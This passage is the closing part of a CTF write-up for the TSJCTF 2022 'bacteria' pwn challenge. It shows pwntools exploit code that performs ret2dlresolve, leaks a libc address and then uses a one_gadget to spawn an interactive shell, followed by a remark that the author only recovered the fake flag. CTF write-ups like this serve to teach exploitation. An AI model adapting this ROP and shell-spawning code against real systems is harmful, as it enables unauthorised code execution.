 ```python
payload += p64(mov_rsi_rbp_read)
payload += STRTAB_struct
p.send(payload)

# print(reloc_arg)                       # Using GDB to check

# Conduct ret2dlresolve
dlresolver = 0x401000
payload = p64(rw_section)
payload += p64(dlresolver)
payload += p64(reloc_arg)
payload += p64(mov_rsi_rbp_read)
p.send(payload)

# Get leaked address
write_addr = u64(p.recv(8))
log.success('Leak address: ' + hex(write_addr))
libc_base = write_addr - 0x1111d0
log.success('Libc base: ' + hex(libc_base))

#########################
### Stage 6: Get flag ###
#########################
one_gadget = 0xe6c7e
xor_r12_pop_r12 = 0xd31f0

payload = p64(0)                               # Fake rbp, not use more
payload += p64(libc_base + xor_r12_pop_r12)    # rip
payload += p64(0)                              # For that pop r12
payload += p64(libc_base + one_gadget)
p.send(payload)

p.interactive()
```

## 4. Get flag

I made this write up when the server closed so I was only able to obtain the fake flag:

![get_flag.png](/static/images/tsjctf-2022/bacteria/get_flag.png)
